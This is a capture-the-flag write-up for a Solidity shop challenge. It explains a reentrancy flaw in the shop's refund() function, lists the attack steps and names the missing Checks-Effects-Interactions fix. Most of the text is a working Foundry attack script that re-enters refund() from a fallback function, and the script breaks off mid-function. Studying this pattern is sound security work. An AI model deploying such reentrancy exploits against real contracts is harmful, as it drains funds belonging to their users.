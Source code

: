 **Goal**

The goal is to "buy" an item that costs 1337 ether, even though we don't have that amount of money available. 

**Observation**

We can simply look at `refund()` function, is interacting with `msg.sender` before effecting the `bought[time]` which is vulnerable to the popular reentrancy attack. To prevent reentrancy attack Checks-Effects-Interactions pattern should be implemented.  

**Attack**

1. buy item `0` with 5 ether
2. refund item `0`
3. reenter into a refund function from fallback function
4. buy item `3` with 1337 ether
5. solved the challenge successfully

**Attack.s.sol**

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IShop {
    function buy(uint256 item, uint256 quantity) external payable;
    function refund(uint256 item, uint256 quantity) external payable;
    function isChallSolved() external view returns (bool solved);
}

import {Script, console} from "forge-std/Script.sol";

contract AttackScript is Script {
    IShop shop = IShop(vm.envAddress("CONTRACT"));
    address inv1nc = address(vm.envAddress("INV1NC"));

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        Attack attack = new Attack{value: 8 ether}(address(shop));
        attack.exploit();
        attack.exploit();
        attack.getMoney();
        shop.buy{value: 1337 ether}(3, 1);
        assert(shop.isChallSolved());
    }
}

contract Attack {
    IShop shop;
    address owner;

    constructor(address shopAddr) public payable {
        shop = IShop(shopAddr);
        owner = msg.sender;
    }

    function exploit() public {
        shop.buy{value: 5 ether, gas: 3 ether}(0, 1);
        shop.refund(0, 1);
    }

    fallback() external payable {
        shop.refund(0, 1);
    }

    function getMoney() external {
```